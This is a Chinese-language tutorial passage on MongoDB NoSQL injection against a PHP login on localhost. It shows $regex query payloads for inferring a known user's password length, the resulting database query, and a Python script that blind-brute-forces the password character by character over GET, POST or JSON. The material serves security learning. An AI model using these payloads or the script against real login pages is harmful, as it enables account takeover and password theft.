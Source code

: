 

在已知用户名的情况下，我们通过正则匹配来获取密码

```
//判断密码长度
http://127.0.0.1/index.php?username[$eq]=time&password[$regex]=.{5}
```

.{5} 表示匹配任意 5 个字符，这个正则表达式可以匹配长度为 5 的任意字符串，也就是说，密码必须是 5 个字符长的任意组合。

(. 是一个元字符，表示匹配任意单个字符（除了换行符）。在这个正则表达式中，.{5} 表示匹配任意5个字符，因为 . 匹配任意单个字符，而 {5} 表示重复5次)

逐渐增大数字，当数字为7时显示登录失败，而数字为6时登录成功(对应的就是有回显和无回显的情况)，就说明密码长度为6

![image-20230224192636516](https://image.3001.net/images/20230224/1677242574_63f8b0ce61507ccdd45d2.png!small)

![image-20230224192702210](https://image.3001.net/images/20230224/1677242575_63f8b0cf51a1b8a589d49.png!small)



提交的数据进入 PHP 后的数据如下：

```json
array(
'username' => 'admin',
'password' => array('$regex' => '.{6}')
)
```

进入 MongoDB 后执行的查询命令为：

```
db.users.find({'username':'admin', 'password':{$regex:'.{6}'}})
```

![image-20230224193103740](https://image.3001.net/images/20230224/1677242576_63f8b0d000aea0b96fb08.png!small)

不过对于盲注来说还是用脚本跑为宜，不然就比较费时费力，脚本比较简略，感兴趣的大佬可以自己改改

```python
import requests
import string

password = ''
url = 'http://127.0.0.1/index.php'

while True:
for c in string.printable:
if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

    # When the method is GET
    get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
    # When the method is POST
    post_payload = {
        "username": "admin1",
        "password[$regex]": '^' + password + c
    }
    # When the method is POST with JSON
    json_payload = """{"username":"admin1", "password":{"$regex":"^%s"}}""" % (password + c)
    #headers = {'Content-Type': 'application/json'}
    #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

    r = requests.post(url=url, data=post_payload)
    if 'Login Success' in r.text:
        print("[+] %s" % (password + c))
        password += c
```
